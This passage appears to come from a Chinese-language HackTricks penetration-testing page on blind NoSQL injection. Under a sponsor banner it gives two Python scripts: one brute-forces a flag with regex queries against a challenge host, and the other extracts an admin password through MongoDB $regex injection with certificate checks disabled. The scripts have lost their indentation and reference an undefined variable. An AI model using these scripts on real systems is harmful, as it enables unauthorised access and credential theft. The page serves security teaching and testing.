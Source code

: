 ```json
}
]
}
}
]
```
![](<../.gitbook/assets/image (9) (1) (2).png>)

使用[**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks)可以轻松构建和自动化由全球**最先进**的社区工具提供支持的工作流程。
立即获取访问权限：

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

## 盲注 NoSQL
```python
import requests, string

alphabet = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(21):
print("[i] Looking for char number "+str(i+1))
for char in alphabet:
r = requests.get("http://chall.com?param=^"+flag+char)
if ("<TRUE>" in r.text):
flag += char
print("[+] Flag: "+flag)
break
```

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""

while True:
for c in string.printable:
if c not in ['*','+','.','?','|']:
payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
r = requests.post(u, data = {'ids': payload}, verify = False)
if 'OK' in r.text:
print("Found one more char : %s" % (password+c))
password += c
```
## MongoDB Payloads
